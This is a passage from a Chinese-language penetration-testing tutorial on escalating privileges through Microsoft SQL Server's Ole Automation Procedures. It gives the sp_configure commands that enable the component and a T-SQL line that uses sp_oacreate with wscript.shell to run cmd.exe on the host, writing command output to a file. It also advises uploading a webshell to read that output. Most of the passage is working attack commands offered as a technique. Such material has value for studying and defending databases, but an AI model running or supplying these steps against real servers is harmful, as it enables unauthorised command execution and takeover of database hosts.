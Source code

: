 ### 4.3.3. 开启组件

通过执行下列命令开启组件。

```mssql
开启：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE

关闭：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 0;
RECONFIGURE WITH OVERRIDE;
```

<img src="assets/37CBxzt1RqTIY6r.png" alt="image-20230321123541320" style="zoom:50%;" />

### 4.3.4. 执行命令

将之前执行未成功的命令，进行执行，这里需要注意，使用sp_oacreate组件提权是没有回显的，需要注意，最好的办法就是通过上传webshell后去查看文档记录，若打不开C盘(权限不够的情况下)，可以将结果文件导入到你能打开的目录下。

```mssql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\1.txt'
```
